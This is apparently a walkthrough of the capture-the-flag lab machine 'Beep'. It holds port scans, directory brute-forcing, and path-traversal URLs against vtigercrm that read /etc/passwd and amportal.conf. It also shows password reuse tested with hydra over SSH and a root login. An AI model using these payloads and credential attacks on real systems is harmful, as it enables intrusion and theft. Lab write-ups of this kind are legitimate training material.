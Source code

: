 * [Recon-Enumeration](#recon-enumeration)
* [Exploit](#exploit)
* [Privesc](#privesc)

![alt text](./img/beep00.PNG?raw=true)  

## Recon-Enumeration  
sudo masscan -p1-65535 10.10.10.7 -e tun0 --rate=100  
![alt text](./img/beep01.PNG?raw=true)  

nmap -v -A -sC -p 5038,877,10000,80,4190,443,25,993,4445,4559,111,995,110,143,3306,22 10.10.10.7  
![alt text](./img/beep16.PNG?raw=true)  

gobuster dir -u https://10.10.10.7 -w ~/wordlists/big.txt -t 100 -e -x php,html,aspx,txt,log,xml -k  
![alt text](./img/beep02.PNG?raw=true)  

## Exploit

A lot of things to check, but i had never saw the folder vtigercrm, so i started with it  
![alt text](./img/beep03.PNG?raw=true)  

searchsploit vtiger 5.1  
![alt text](./img/beep04.PNG?raw=true)  

searchsploit -x php/webapps/18770.txt  
![alt text](./img/beep05.PNG?raw=true)  

So let’s try to use this URL, only changing the LOCALHOST to 10.10.10.7  
https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/passwd%00  
![alt text](./img/beep06.PNG?raw=true)  

We can copy this content and put on a text editor, and adjust it to a better look  
![alt text](./img/beep07.PNG?raw=true)  

We have some good information here, but let’s start with the users. We have spamfilter and fanis with home directories  

I tried to find some useful files without success, so a i returned to searchsploit  
searchsploit elastix  
![alt text](./img/beep08.PNG?raw=true)  

The LFI caught my attention because it could show me another important file to exploit  
searchsploit -x php/webapps/37637.pl  
![alt text](./img/beep09.PNG?raw=true)  

Ok, it’s another LFI vector, but it give other file as POC. Let’s try to read it, you can choode this new url or the old one  
- https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action  
- https://10.10.10.7/vtigercrm/modules/com_vtiger_workflow/sortfieldsjson.php?module_name=../../../../../../../../etc/amportal.conf%00  

You can adain copy the text to organize it, but is easier just see the source code of the page  
![alt text](./img/beep10.PNG?raw=true)  

Some very useful information. Testing the credential admin:jEhdIekWmdjE we can login on 10.10.10.7 page  
![alt text](./img/beep11.PNG?raw=true)  

Maybe this same password work with some of the users found on passwd file.  
So let’s create a user.txt file with all the users and test the password with hydra  
cat user.txt  
![alt text](./img/beep12.PNG?raw=true)  

hydra ssh://10.10.10.7 -L user.txt -p jEhdIekWmdjE -t 64  
![alt text](./img/beep13.PNG?raw=true)  

## Privesc  

Ok….so we have root password  
ssh root@10.10.10.7  
![alt text](./img/beep14.PNG?raw=true)  

HABEMUS SHELL \o/  

Now, since we are root, just search and grab the flags  
![alt text](./img/beep15.PNG?raw=true)  

